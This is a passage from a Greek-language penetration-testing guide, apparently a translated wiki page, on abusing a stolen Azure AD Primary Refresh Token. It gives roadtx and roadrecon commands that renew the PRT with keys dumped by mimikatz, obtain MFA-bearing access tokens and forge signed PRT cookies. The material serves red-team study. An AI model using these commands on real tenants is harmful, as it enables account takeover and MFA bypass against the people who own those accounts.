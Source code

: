 {% hint style="danger" %}
Τα υπόλοιπα πρέπει να είναι τα προεπιλεγμένα. Βεβαιωθείτε ότι μπορείτε να ανανεώσετε τη σελίδα και το cookie δεν εξαφανίζεται, αν το κάνει, μπορεί να έχετε κάνει κάποιο λάθος και θα πρέπει να επαναλάβετε τη διαδικασία. Αν δεν εξαφανίζεται, τότε είστε εντάξει.
{% endhint %}

#### Επιλογή 2 - roadrecon χρησιμοποιώντας PRT

* Ανανεώστε πρώτα το PRT, το οποίο θα αποθηκευτεί στο `roadtx.prt`:

{% code overflow="wrap" %}
```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```
{% endcode %}

* Τώρα μπορούμε να **ζητήσουμε τα tokens** χρησιμοποιώντας το περιηγητή διαδρομής με `roadtx browserprtauth`. Αν χρησιμοποιήσουμε την εντολή `roadtx describe`, βλέπουμε ότι το access token περιλαμβάνει μια δήλωση MFA επειδή το PRT που χρησιμοποίησα σε αυτήν την περίπτωση είχε επίσης μια δήλωση MFA.
```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```
<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

#### Επιλογή 3 - roadrecon χρησιμοποιώντας παράγωγα κλειδιά

Έχοντας το πλαίσιο και το παράγωγο κλειδί που ανακτήθηκε από το mimikatz, είναι δυνατόν να χρησιμοποιηθεί το roadrecon για τη δημιουργία ενός νέου υπογεγραμμένου cookie με:
```bash
roadrecon auth --prt-cookie <cookie> --prt-context <context> --derives-key <derived key>
```
{% endcode %}
